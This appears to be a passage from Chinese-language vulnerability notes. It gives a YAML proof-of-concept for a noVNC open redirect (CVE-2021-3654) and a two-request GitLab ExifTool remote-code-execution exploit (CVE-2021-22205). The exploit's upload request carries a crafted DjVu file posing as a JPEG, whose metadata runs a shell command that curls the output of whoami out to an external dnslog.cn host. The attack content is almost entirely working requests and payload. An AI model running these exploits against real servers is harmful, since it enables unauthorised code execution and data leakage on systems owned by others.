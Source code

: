 ```
name: poc-yaml-novnc-url-redirection-cve-2021-3654
manual: true
transport: http
rules:
  - method: GET
    path: "//baidu.com/%2f.."
    follow_redirects: false
    expression: |
      response.headers['location']=="//baidu.com/%2f../"
detail:
  author: txf(https://github.com/tangxiaofeng7)
  links:
    - https://seclists.org/oss-sec/2021/q3/188
```

###### CVE-2021-22205

> exiftool解析造成的rce
> 一共发送2个请求

![image.png](https://image.3001.net/images/20211215/1639539649_61b963c178b8ea83744eb.png!small)

请求1:

```
GET /users/sign_in HTTP/1.1
Host: xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.81 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
```

获取csrf-token

请求2:

```
POST /uploads/user HTTP/1.1
Host: xx
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryIMv3mxRg59TkFSX5
X-CSRF-Token: xxx==
Cookie: xx
Content-Length: 879


------WebKitFormBoundaryIMv3mxRg59TkFSX5
Content-Disposition: form-data; name="file"; filename="test.jpg"
Content-Type: image/jpeg

AT&TFORM�DJVMDIRM.�F���޿� !ȑN��ڈ�k�D,q�I�n����"?FORM^DJVUINFO
dINCLshared_anno.iffBG44J���7�*�BG44��BG44
FORMDJVIANTaP(metadata
	(Copyright "\
" . qx{curl `whoami`.dnslog.cn} . \
" b ") )

------WebKitFormBoundaryIMv3mxRg59TkFSX5--
```

